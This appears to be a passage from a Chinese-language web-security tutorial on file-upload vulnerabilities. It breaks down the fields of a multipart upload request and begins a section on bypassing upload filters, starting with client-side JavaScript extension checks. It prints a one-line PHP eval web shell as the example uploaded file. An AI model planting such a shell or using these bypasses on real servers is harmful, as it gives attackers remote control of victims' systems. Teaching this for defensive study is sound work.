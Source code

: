 ```

<?php @eval($_POST['key']);?>

------WebKitFormBoundaryAEFWShaIYBzgEpLD--

```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/_1528645407_2091826910_1536893300)

从中获取特征为：

* 请求Header中`Content-Type`存在以下特征：
    * `multipart/form-data`（表示该请求是**一个文件上传请求**）
    * 存在`boundary`字符串（作用为**分隔符，以区分POST数据**）
* POST的内容存在以下特征：
    * `Content-Disposition`
    * `name`
    * `filename`
* `POST`中的`boundary`的值就是`Content-Type`的值在最前面加了两个`--`，除了最后标识结束的`boundary`
* 最后标识结束的`boundary`最后默认会多出两个`--`（测试时，最后一行的`boundary`删掉也能成功上传）
* 获取文件名的地方在`Content-Disposition: form-data; name="file"; filename="xx.php"`和`Content-Type`里，所以绕过的地方也就在这两个地方了。


## 绕过方法

### 客户端检测(JavaScript检测)

#### 检测说明
这类检测，通常是**在上传页面里含有专门检测文件上传的JavaScript代码**，最常见的就是`检测扩展名是否合法`，示例代码如下：

```JavaScript
function check()
{
  var filename = document.getElementById("file");
  var str = filename.value.split(".");
  var ext = str[str.length-1];
  if(ext=='jpg'||ext=='png'||ext=='jpeg'||ext=='gif')
  {
    return true;
  }
  else
  {
    alert("仅允许上传png/jpeg/gif类型的文件！")
    return false;
  }
  return false;
}
```

#### 判断该类检测的套路
1. 选择一个**禁止上传类型**的文件上传，当点击**确定**按钮之后，浏览器立即**弹窗提示禁止上传**，一般就可以断定为`客户端JavaScript检测`
2. 可以通过**配置浏览器HTTP代理（没有流量经过代理就可以证明是客户端JavaScript检测）**。
